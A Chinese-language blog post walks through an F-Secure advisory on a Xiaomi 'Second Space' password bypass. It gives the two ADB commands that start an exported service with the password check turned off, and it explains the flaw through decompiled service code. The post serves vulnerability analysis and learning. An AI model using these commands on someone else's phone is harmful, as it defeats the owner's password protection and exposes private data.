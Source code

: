 ```yaml
---
layout: post
title:  "REDMI 5 Plus Second Space Password Bypass"
date:   2020-06-10 18:00:00 +520
categories: Android_Security
---
```


这个漏洞来自F-Secure实验室
- https://labs.f-secure.com/advisories/xiaomi-second-space

一句话描述就是：通过ADB命令启动一个Service就可以绕过小米Second Space的密码校验

我有一台Mix 2，刚好可以用于测试

Second Space的中文版本叫作`手机分身`

![](/assets/resources/DEC8A5C4B85CB1E7735AB3530F29BD12.jpg)

点击`开启手机分身`，会进入设置，两个密码，一个密码用于进入分身，一个密码用于回到主系统

这个漏洞的作用，就是让攻击者不需要密码，也可以进入分身，并且在主系统与分身之间自由切换

一共两条命令
```
➜ SECOND_USER=`adb shell pm list users | grep -o "{[0-9]*" | tr -d '{' | tail -n 1`
➜ adb shell am start-service --ez params_check_password False --ei params_target_user_id $SECOND_USER -a com.miui.xspace.TO_CHANGE_USER
```

第一条命令用于查询当前手机里的用户，`| grep -o "{[0-9]*" | tr -d '{' | tail -n 1`用于过滤出`11`这个字段
```
➜ adb shell pm list users
Users:
	UserInfo{0:机主:13} running
	UserInfo{11:security space:13} running
```

第二条命令可以说是最为关键，我们对其进行参数拆分
```
adb shell am start-service // 通过ADB命令启动Service
    --ez params_check_password False // boolean类型参数
    --ei params_target_user_id $SECOND_USER // int类型参数
    -a com.miui.xspace.TO_CHANGE_USER // 指定的Action
```

我们现在知道了这个Service响应的Action是`"com.miui.xspace.TO_CHANGE_USER"`

根据F-Secure的文章提示找到应用`com.miui.securitycore`

当然了，你想自己通过全局爆搜APK字符串也是可以的

这是实现Space切换的Service

![IMAGE](/assets/resources/EB405B9E46F294F27D622AED92854C57.jpg)

查看AndroidManifest文件的定义，有`<intent-filter>`默认导出
```
<service 
    android:name="com.miui.securityspace.service.SwitchUserService"
    android:permission="android.permission.INTERACT_ACROSS_USERS" 
    android:process="com.miui.securitycore.remote">
    <intent-filter>
        <action android:name="com.miui.xspace.TO_CHANGE_USER" />
    </intent-filter>
</service>
```

获取四个Intent字段后，调用`checkPasswordBeforeSwitch()`，`mTargetUserId`就是上文提到的`11`
```
public int onStartCommand(Intent intent, int arg7, int arg8) {
    this.mDelayTime = intent.getLongExtra("com.miui.xspace.preference_delay_time", 300);
    this.mFromType = intent.getStringExtra("com.miui.xspace.preference_from_type");
    this.mTargetUserId = intent.getIntExtra("params_target_user_id", -10000);
    this.mIsNeedcheckPassword = intent.getBooleanExtra("params_check_password", true);
    Log.d("SwitchUserService", "mTargetUserId: " + this.mTargetUserId);
    if(this.mTargetUserId != -10000) {
        this.checkPasswordBeforeSwitch(this.mTargetUserId);
    }

    this.stopSelf();
    return super.onStartCommand(intent, arg7, arg8);
}
```

`needCloseSdcardFs()`返回的固定值`0`，所以第一个`if`块不会进入，第二个`if`块有两个判断条件，`!mIsNeedcheckPassword`和`!isSecure()`，只需要满足其中一个就可以进入`if`块，而Poc中设置的`"params_check_password"`字段为`False`，所以这个`if`块就是我们关注的重点
```
private void checkPasswordBeforeSwitch(int mTargetUserId) {
    Intent intent;
    
    // private boolean needCloseSdcardFs(int arg2) { return 0; }
    if(this.needCloseSdcardFs(mTargetUserId)) {
        intent = new Intent(((Context)this), SdcardFsDialogActivity.class);
        intent.setFlags(0x10000000);
        this.startActivity(intent);
        return;
    }

    if(!this.mIsNeedcheckPassword || !SpaceManagerWrapper.getInstance().isSecure(mTargetUserId)) {
        int v1 = SpaceManagerWrapper.getInstance().switchUser(mTargetUserId);
        if(v1 == 0) {
            AnalyticsHelper.trackSwitchUser(mTargetUserId, this.mFromType);
        }
        else if(2 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09014B), 0).show(); // Can't switch between spaces during a call
        }
        else if(3 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09018B), 0).show(); // Switching to Second space is restricted by parental controls
        }
        else if(4 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F0901CC), 0).show(); // Can't switch between spaces when Ultra battery saver is on
        }
    }
    else {
        intent = new Intent(((Context)this), SwitchUserConfirmActivity.class);
        intent.addFlags(0x10008000);
        intent.putExtra("preference_key_user_id", mTargetUserId);
        intent.putExtra("com.miui.xspace.preference_delay_time", this.mDelayTime);
        intent.putExtra("com.miui.xspace.preference_from_type", this.mFromType);
        this.startActivityAsUser(intent, new UserHandle(CrossUserUtils.getCurrentUserId()));
    }
}
```

这个`if`块的第一句代码就是调用`switchUser()`，一共有三个判断
```
public int switchUser(int mTargetUserId) {
    if(DeviceUtil.isPhoneCalling(this.mContext)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when calling.");
        return 2;
    }

    if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
        return 3;
    }

    if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
        return 4;
    }

    if(this.mSpaceManager.switchUser(mTargetUserId)) {
        return 0;
    }

    return 1;
}
```

第一个判断，如果当前有电话打进来或者正在接电话，不进行Space切换
```
CALL_STATE_STATE_IDLE = 0;
CALL_STATE_STATE_RUNNING = 1;
CALL_STATE_STATE_OFFHOOK = 2;

public static boolean isPhoneCalling(Context context) {
    boolean result = true;
    int callState = context.getSystemService("phone").getCallState();
    if(callState != 1 && callState != 2) {
        result = false;
    }

    return result;
}
```

第二个判断和第三个判断，有一点点棘手，因为它调用到了Framework代码，小米在这一层多了相当多的定制
```
import android.provider.MiuiSettings$Secure;
import android.provider.MiuiSettings$System;

if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
    return 3;
}

if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
    return 4;
}
```

解析boot-framework.vdex，会获得三个cdex，再解析三个cdex文件为dex文件即可

![IMAGE](/assets/resources/C6FE99F25A99F5D480D2D8DF6827060C.jpg)

JEB分析一波，可以直接找到两个方法，正常情况下这两个方法都返回`false`，可以不用过多关注

![IMAGE](/assets/resources/6D15B242DBB968006CBF5027ACFA08A1.jpg)

最后就是切换Space啦
```
if(this.mSpaceManager.switchUser(mTargetUserId)) {
    return 0;
}
```

这后面又会调用到Framework的代码，咱们就不进行展开了

有生之年一定要认识一下F-Secure的大佬们，给大佬们一人带一双温州皮鞋穿穿